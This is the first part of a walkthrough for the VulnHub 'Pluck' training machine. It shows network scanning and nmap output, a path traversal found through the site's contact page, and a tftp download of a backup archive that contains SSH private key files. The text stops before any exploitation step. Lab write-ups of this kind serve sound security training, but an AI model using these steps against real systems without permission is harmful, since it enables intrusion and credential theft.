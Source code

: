 # Pluck

## 1.Scan Network

```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.133	00:0c:29:e8:d3:70	VMware, Inc.
192.168.127.254	00:50:56:eb:a0:df	VMware, Inc.
```

The IP address is `192.168.127.133`, let's enumerate it


## 2.Enumeration

```bash
root@kali: nmap -p22,80,3306,5355 -sV -sC -v -oN nmap.out 192.168.127.133

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e8:87:ba:3e:d7:43:23:bf:4a:6b:9d:ae:63:14:ea:71 (RSA)
|   256 8f:8c:ac:8d:e8:cc:f9:0e:89:f7:5d:a0:6c:28:56:fd (ECDSA)
|_  256 18:98:5a:5a:5c:59:e1:25:70:1c:37:1a:f2:c7:26:fe (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Pluck
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql   MySQL (unauthorized)
5355/tcp open  llmnr?
MAC Address: 00:0C:29:E8:D3:70 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We first go for port 80 and check the website :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b4b4d9d2-09c4-4692-84df-c265b67b5297)

checking different parts of the page i found `Contact Us` menu which loads the page like this :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/350d1de7-4dd5-451f-850e-115614ce36ca)

i used burp to repeat the process for a path traversal vulnerability and it worked :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2bc65341-4166-40f8-8ab7-e66e4c2ab9f8)

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a65ba4fd-84bf-4435-96b2-ecd4abfebae4)


after sending request to `/usr/local/scripts/backup.sh` the contents below showed up :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/0211def6-716a-4d36-9dac-77338580233e)


here it says that backups are accessible through tftp, so we can check if we can reach it :

```bash
root@kali: tftp 192.168.127.133
tftp> get /backups/backup.tar
tftp> quit
```

now we extract the backup.tar file and see there are 2 directories in it :

```bash
root@kali: tar -xvf backup.tar
```

navigate to `home` folder and see the contents :


```bash
root@kali: tree .              
.
├── bob
├── CVE-2016-1531.sh
├── paul
│   └── keys
│       ├── id_key1
│       ├── id_key1.pub
│       ├── id_key2
│       ├── id_key2.pub
│       ├── id_key3
│       ├── id_key3.pub
│       ├── id_key4
│       ├── id_key4.pub
│       ├── id_key5
│       ├── id_key5.pub
│       ├── id_key6
│       └── id_key6.pub
└── peter
```

















